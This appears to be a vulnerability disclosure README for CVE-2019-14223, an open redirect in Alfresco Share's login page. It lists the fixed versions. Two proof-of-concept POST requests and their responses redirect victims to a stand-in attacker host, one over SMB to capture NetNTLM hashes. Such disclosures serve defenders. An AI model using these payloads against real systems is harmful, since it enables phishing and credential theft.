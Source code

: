 # CVE-2019-14223: Open Redirect in Alfresco Share

The Alfresco Share application, versions below 5.2.6, 6.0.N and 6.1.N, is vulnerable to an Open Redirect attack via a crafted POST request. 
<br/>
By manipulation the "failure" parameter an attacker can redirect a victim to a malicious website over any protocol the attacker desires (Ex. http, https, ftp, smb, etc.).

### Fixed Versions
<table>
	<tr>
		<th>Fix Version</th>
	</tr>
	<tr>
		<td>5.2.6</td>
	</tr>	
	<tr>
		<td>6.0.N</td>
	</tr>	
	<tr>
		<td>6.1.N</td>
	</tr>	
	</tr>	
</table>

### Redirect Over the Same Protocol

This is a redirect over the same protocol used to access the login page (http/https) and can be used to redirect the client to a malicious website used for phishing or that targets the browser itself.

- Request:

```
POST /share/page/dologin HTTP/1.1
Host: <TARGET_IP>:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

success=%2Fshare%2Fpage%2F&failure=:\\mal.hexor:4444\mal\evil.html&username=baduser&password=badpass
```

- Response:

```
HTTP/1.1 302 Found
Server: Apache-Coyote/1.1 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Set-Cookie: JSESSIONID=71***TRUNCATED***53; Path=/share; Secure; HttpOnly
Location: \\mal.hexor:4444\mal\evil.html
Content-Length: 0
Date: Mon, 13 May 2019 14:27:47 GMT
```

### Redirect Over Specific Protocol (SMB, FTP, etc.)

In this case the "smb" protocol can be used in order to potentially exfiltrate the victims NetNTLM hash.

- Request:

```
POST /share/page/dologin HTTP/1.1
Host: <TARGET_IP>:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 104

success=%2Fshare%2Fpage%2F&failure=:smb:\\mal.hexor:4444\mal\evil.html&username=baduser&password=badpass
```

- Response:

```
HTTP/1.1 302 Found
Server: Apache-Coyote/1.1
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Set-Cookie: JSESSIONID=2C***TRUNCATED***DF; Path=/share; Secure; HttpOnly
Location: smb:\\mal.hexor:4444\mal\evil.html
Content-Length: 0
Date: Mon, 13 May 2019 15:23:34 GMT
```
